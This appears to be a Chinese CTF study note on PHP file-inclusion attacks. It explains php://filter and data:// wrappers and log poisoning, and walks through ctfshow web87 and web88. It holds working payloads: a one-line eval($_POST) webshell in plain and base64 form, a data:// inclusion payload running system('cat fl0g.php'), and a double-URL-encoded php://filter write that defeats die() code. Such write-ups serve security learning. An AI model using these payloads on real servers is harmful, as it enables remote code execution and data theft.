 # 文件包含

## 读取方式总结

### 直接读取

### 伪协议读取

这里我直接把写的其他地方的note拿过来

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
// 例如，php://filter/read=convert.base64-encode/resource=flag.php
// 若直接包含一个php文件，可能会不显示
php://filter/write=<1>/resource=<2>
// 和上面当然是一样的，但写入的时候需要将read改为write。
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

### 远程服务器包含

想想可不可以包含其他服务器的文件而不是本机？小概率事件

### 日志包含

这里写一下`apache`和`nginx`两种服务器的日志存放位置。

`nginx`日志:

```bash
/var/log/nginx/access.log
```

apache日志：

```bash
/usr/local/apache/logs/access_log
```

利用思路就是，先构造一个`User-Agent`为恶意代码的包，例如`User-Agent`为`<?php eval($_POST[1];);?>`，然后这样日志中就含有这个一句话木马。将这个日志文件包含进来即可。

### data://

`data://`是一个文件流，它可以直接看做文件的内容本身。

常见用法如下：（抄一下上面的

```php
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

以ctfshow web88为例子，源码如下：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

`$file`是根据`GET`方式传递的变量，然后有一些正则，然后`include`这个变量的文件。

这里可以使用`data://`数据流，即我们直接包含我们自己构造的马。

先随便写个马，比如（但这里要注意，正则过滤`=`号，因此`base64`把末尾等号删除即可）

```php
<?php eval($_POST[1]); ?>
```

由于有过滤`php`和括号什么的，所以干脆我们将其`base64`一下。上面的一句马`base64`一下结果是：

```
PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

那`payload`也很显然了，即：

```php
?file=data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg
//post:
1=system("cat fl0g.php");
```



### php://filter

用doc里面的话，`php://filter`是一种元封装器，设计用于数据流打开时的筛选过滤应用。

使用常见的情况可能是这样：(又抄了上面的

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
```

`filter`的种类可以参见 [这里]([PHP: 可用过滤器列表 - Manual](https://www.php.net/manual/zh/filters.php)) 。

`filter`可以对文件流进行操作，即在即将读取/写入的操作进行之前，先将读取/写入的数据内容进行过滤器指定的操作。例如我们需要读取`flag.php`这个文件，而在读取之前，先将读取到的内容进行一下编码操作，我们就可以用`php://filter`进行数据过滤。这个编码操作就是过滤器指定的操作，`flag.php`就是即将读取的文件。

以ctfshow web87为例，讲一下`filter`的一些作用。

先看源码：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

首先明确一点，使用`GET`方式传入的文件名是完全可控的，原因是，在PHP中使用`GET`或者`POST`接收到的内容是都会先进行一次URL解码操作的。而在`file_put_contents`函数中又进行了一次URL解码操作，因此传入的`$file`需要进行两次URL编码，因此替换操作不会有任何影响，导致这里可控。

那么问题显而易见了，传入的`$content`当然是可控的，但前面有一个`die`，导致我们直接写入的任何php的操作没有作用。经过上面的描述，一个简易的解决方式是可以有的，即使用`php://filter`。在对`$file`文件进行写入操作之前，我们先使用一个数据过滤器对即将写入的数据进行一定处理。这里就有很多种过滤器可用了，我第一时间想到的是比较常用的`base64`编码，这里也可以用其他很多过滤器，例如编码方面还可以用`rot13`等，此处写一下`base64`的绕过方法。

众所周知，`base64`将任意`Ascii`字符转换为64个字符，即大小写字母、数字和一些特殊符号。对于即将编码的`Ascii`字符，都是8个字节，而`base64`会将他们映射到6个字节。因此若有三个字符（`3*8=24`字节）待转换，则`base64`将其映射为4个字符（同样是`4*6=24`字节）。对于传入的字符串不是3的倍数的情况，`base64`以字符`=`来进行填充到编码后的字符串。

那么在这个场景下，我们可以在将文件内容写入之前，进行一次`base64`的解码操作。`<?php die('大佬别秀了');?>`里面是有中文的，那应该算几个字节呢？经查阅后发现中文会按照不同的编码（当然同一个汉字就会有不同的二进制长度）有不同的算法。因此我们这里直接试了一下，发现在上面的死亡代码添加两个字符后，后面的字符串将是独立解密的。因此我们构造写入的内容为：

```php
content=11PD9waHAgZWNobyAyMjI7ZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

写入的文件名使用`filter`处理，即：

```php
?file=php://filter/write=convert.base64-decode/resource=1.php
```

经过两次URL编码，即：

```php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
```

